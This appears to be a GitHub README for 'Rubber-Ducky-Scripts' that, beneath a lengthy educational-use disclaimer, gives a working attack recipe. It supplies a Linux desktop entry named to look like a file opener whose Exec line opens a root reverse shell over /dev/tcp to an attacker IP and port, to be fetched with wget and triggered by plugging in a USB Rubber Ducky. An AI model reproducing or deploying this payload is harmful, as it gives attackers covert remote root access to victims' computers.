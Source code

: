 # Rubber-Ducky-Scripts
**Disclaimer:** Engaging in activities involving compromised scripts, unauthorized access, or any form of potentially harmful actions is strictly prohibited. The use of such scripts without explicit authorization is both unethical and illegal. It is crucial to adhere to ethical guidelines, respect the law, and prioritize the security and privacy of computer systems. The information provided here is intended for educational and informative purposes only. If you are in an academic or learning environment and wish to explore cybersecurity topics, it is essential to obtain explicit permission from relevant authorities and conduct experiments in a controlled, legal, and ethical manner. Always follow best practices, participate in legal and educational platforms, and ensure that your actions contribute positively to the field of cybersecurity. Unauthorized and unethical activities may result in severe consequences, including legal action and academic penalties. 
## Rubber-Ducky-Scripts
For this project you will need the following files<br> 
**fakeimage.desktop** (Save this file on a remote site or any accessible link - For this project we will use wget to pull this file into the location /usr/local/share/applications/_)

Contents of the file - Include details and save file as fakeimage.desktop <br>
**[Desktop Entry] <br>
Encoding=UTF-8 <br>
Name=Open_Custom_File <br>
Exec=sudo /bin/bash -i > /dev/tcp/192.168.145.146/4444 0<&1 2>&1 <br>
Terminal=true <br>
Type=Application <br>
Icon=notebook** <br>
Change IP Address to attacker machine

Plug in the rubber ducky to run the script in **payload.dd** file. 
